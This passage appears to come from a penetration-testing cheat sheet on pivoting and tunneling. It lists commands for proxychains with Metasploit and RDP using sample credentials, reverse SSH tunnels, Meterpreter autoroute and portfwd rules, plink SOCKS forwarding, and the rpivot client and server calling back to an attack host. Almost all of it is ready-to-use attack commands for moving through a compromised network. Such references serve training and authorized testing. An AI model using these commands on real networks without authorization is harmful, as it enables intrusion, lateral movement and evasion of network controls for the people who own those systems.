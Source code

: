 `proxychains msfconsole`

Used to connect to a target using RDP and a set of credentials using proxychains. This will send all traffic through a SOCKS proxy.

`proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123`

SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port `8080` on the attack host to port `80` on the target.

`ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN`

Metasploit command used to select the autoroute module.

`msf6 > use post/multi/manage/autoroute`

Meterpreter command used to display the features of the portfwd command.

`meterpreter > help portfwd`

Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target.

`meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>`

Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host.

`meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>`

Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host.

`plink -D 9050 ubuntu@<IPaddressofTarget>`

Clones the rpivot project GitHub repository.

`sudo git clone https://github.com/klsecservices/rpivot.git`

Used to run the rpivot server (`server.py`) on proxy port `9050`, server port `9999` and listening on any IP address (`0.0.0.0`).

`python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`

Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target.

`scp -r rpivot ubuntu@<IPaddressOfTarget>`

Used to run the rpivot client (`client.py`) to connect to the specified rpivot server on the appropriate port.

`python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`

Use to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication.

`python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>`

